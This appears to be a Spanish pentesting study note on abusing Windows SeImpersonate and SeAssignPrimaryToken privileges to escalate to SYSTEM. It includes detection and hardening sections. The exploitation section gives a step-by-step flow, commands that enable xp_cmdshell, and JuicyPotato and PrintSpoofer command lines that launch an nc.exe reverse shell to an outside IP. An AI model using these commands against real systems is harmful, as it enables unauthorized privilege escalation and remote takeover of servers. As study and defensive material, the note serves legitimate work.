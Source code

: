 # SeImpersonate y SeAssignPrimaryToken

## Introducción

El sistema Windows representa la identidad de cuentas y procesos mediante **tokens de acceso**. Dos privilegios críticos relacionados con la reutilización o asignación de tokens son **SeImpersonatePrivilege** y **SeAssignPrimaryTokenPrivilege**. Ambos permiten a procesos con los derechos adecuados actuar con el contexto de otros usuarios y, si se abusan en entornos no endurecidos, posibilitan escaladas locales a NT AUTHORITY/SYSTEM.

---

## Definición

* **SeImpersonatePrivilege**: "Impersonate a client after authentication" — permite a un proceso (o hilo) **impersonar** a un cliente autenticado (usar su token de impersonación) para acceder a recursos en nombre de ese cliente. A menudo este privilegio se le otorga a cuentas administrativas. Un ejemplo del uso de este token es mediante la función [`CreateProcessWithTokenW`](https://learn.microsoft.com/en-us/windows/win32/api/winbase/nf-winbase-createprocesswithtokenw).

`Nota`: `CreateProcessWithTokenW` es una función de la API Win32 que crea un nuevo proceso y permite lanzarlo con la identidad de un token dado. Requiere que el llamador tenga `SeImpersonatePrivilege`.  

* **SeAssignPrimaryTokenPrivilege**: "Replace a process level token" — permite crear o asignar **tokens primarios** a procesos (por ejemplo, usar la función `CreateProcessAsUser`) y es más restrictivo.

Diferencia práctica:

* *Impersonation token* suele estar asociado a un thread y se usa para actuar temporalmente como el cliente.
* *Primary token* se asigna a un proceso entero y permite crear procesos enteros bajo esa identidad.

---

## Contexto de abuso

* Servicios que atienden conexiones de cliente (IIS, SQL Server, servicios RPC/COM) a menudo necesitan impersonar al usuario que realiza la petición para acceder a recursos (shares, bases de datos, otros servicios). Por ello, las cuentas de estos servicios a veces tienen SeImpersonate habilitado.
* Si obtenés ejecución en el contexto de uno de esos servicios (por ejemplo, nt service/mssql$..., IIS APPPOOL/defaultapppool), la presencia de SeImpersonate o SeAssignPrimaryToken puede permitir una escalada rápida a SYSTEM.

---

## Ejemplo de explotación (JuicyPotato / PrintSpoofer — flujo resumido)

1. Obtener RCE en contexto de un servicio (ej.: xp_cmdshell en SQL, web shell en IIS, Jenkins RCE).
2. Confirmar la cuenta del proceso: whoami (ej. nt service/mssql$sqlexpress01).
3. Comprobar privilegios: whoami /priv → comprobar SeImpersonatePrivilege o SeAssignPrimaryTokenPrivilege.
4. Subir herramienta de explotación (JuicyPotato.exe, PrintSpoofer.exe, nc.exe).
5. Ejecutar herramienta apuntando al CLSID/puerto COM apropiado y al payload (reverse shell).
6. Si tiene éxito, obtendrás un shell como NT AUTHORITY/SYSTEM.

---

## Comandos y ejemplos prácticos

* Comprobar identidad y privilegios:

  ```cmd
  whoami
  whoami /priv
  ```

* Habilitar xp_cmdshell (ejemplo con Impacket mssqlclient):

  ```sql
  EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
  EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
  ```

* Ejecutar JuicyPotato (ejemplo):

  ```cmd
  JuicyPotato.exe -l 53375 -p C:/Windows/System32/cmd.exe -a "/c C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe" -t *
  ```

* Ejecutar PrintSpoofer (ejemplo):

  ```cmd
  PrintSpoofer.exe -c "C:/tools/nc.exe 10.10.14.3 8443 -e cmd.exe"
  ```

> Observación: JuicyPotato no funciona en builds recientes de Windows; en esos casos probar PrintSpoofer, RoguePotato u otras variantes.

---

## Detección (artefactos y logs)

* **Windows Security Event Log**:

  * 4624 / 4634 (logons), 4688 (creación de procesos) — buscar procesos inusuales creados por servicios.
* **Sysmon**:

  * EventID 1 (ProcessCreate): procesos hijos anómalos de servicios (ej. w3wp.exe -> cmd.exe).
  * EventID 10 (ProcessAccess): accesos entre procesos que indican token stealing.
  * EventID 3 (NetworkConnect): conexiones reversas (nc.exe).
* **EDR**: llamadas a APIs sensibles (CreateProcessWithTokenW, CreateProcessAsUser) y creación de procesos con tokens distintos deben alertar.
* Revisar named pipes y endpoints COM/RPC que estén siendo escuchados por procesos no habituales.

---

## Mitigaciones y hardening

* **Eliminar los privilegios** SeImpersonatePrivilege y SeAssignPrimaryTokenPrivilege de cuentas que no los necesiten (Local Security Policy -> User Rights Assignment o GPO).
* Ejecutar servicios con cuentas con menor privilegio (service accounts con permisos mínimos).
* Separar responsabilidades: no usar la misma cuenta para múltiples servicios críticos.
* Habilitar PPL / LSASS protections y tecnologías como Credential Guard cuando aplique.
* Implementar Sysmon + EDR con reglas que detecten procesos creados desde servicios y uso de APIs de token.
* Application whitelisting y bloqueo de ejecución de binarios no autorizados en servidores críticos.

---

## Checklist

* [ ] Obtener RCE en contexto de servicio.
* [ ] whoami y whoami /priv.
* [ ] Subir herramienta de explotación compatible con la versión de Windows objetivo.
* [ ] Intentar JuicyPotato → si falla, probar PrintSpoofer / RoguePotato / alternativas.
* [ ] Si obtienes SYSTEM, documentar evidencia y limpiar artefactos en entorno de laboratorio.

---

## Notas finales y recursos

* JuicyPotato, PrintSpoofer y RoguePotato son ejemplos públicos; su efectividad depende de la build de Windows.
* Consulta documentación técnica sobre tokens y las APIs CreateProcessWithTokenW, CreateProcessAsUser para profundizar.
* Siempre trabajar en entornos controlados y con autorización.

---

*Fin.*

